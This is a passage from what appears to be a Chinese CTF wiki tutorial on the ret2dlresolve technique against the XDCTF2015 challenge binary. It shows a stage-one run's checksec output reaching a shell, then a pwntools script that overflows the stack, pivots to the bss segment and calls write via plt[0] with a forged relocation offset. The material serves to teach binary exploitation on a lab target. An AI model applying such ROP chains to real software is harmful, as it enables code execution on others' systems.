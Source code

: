 ```shell
➜  ret2dlresolve git:(master) ✗ python stage1.py
[*] '/mnt/hgfs/Hack/ctf/ctf-wiki/pwn/stackoverflow/example/ret2dlresolve/main'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
[+] Starting local process './main': pid 120912
[*] Loaded cached gadgets for './main'
[*] Switching to interactive mode
/bin/sh[*] Got EOF while reading in interactive

```

##### stage 2

在这一阶段，我们将会利用dlresolve相关的知识来控制程序执行write函数。这里我们主要是利用plt[0]中的相关指令，即push linkmap以及跳转到dl_resolve函数中解析的指令。此外，我们还得单独提供一个write重定位项在plt表中的偏移。

```python
from pwn import *
elf = ELF('main')
r = process('./main')
rop = ROP('./main')

offset = 112
bss_addr = elf.bss()

r.recvuntil('Welcome to XDCTF2015~!\n')

## stack pivoting to bss segment
## new stack size is 0x800
stack_size = 0x800
base_stage = bss_addr + stack_size
### padding
rop.raw('a' * offset)
### read 100 byte to base_stage
rop.read(0, base_stage, 100)
### stack pivoting, set esp = base_stage
rop.migrate(base_stage)
r.sendline(rop.chain())

## write cmd="/bin/sh"
rop = ROP('./main')
sh = "/bin/sh"

plt0 = elf.get_section_by_name('.plt').header.sh_addr
write_index = (elf.plt['write'] - plt0) / 16 - 1
write_index *= 8
rop.raw(plt0)
rop.raw(write_index)
## fake ret addr of write
rop.raw('bbbb')
rop.raw(1)
rop.raw(base_stage + 80)
rop.raw(len(sh))
rop.raw('a' * (80 - len(rop.chain())))
rop.raw(sh)
rop.raw('a' * (100 - len(rop.chain())))

r.sendline(rop.chain())
r.interactive()

```
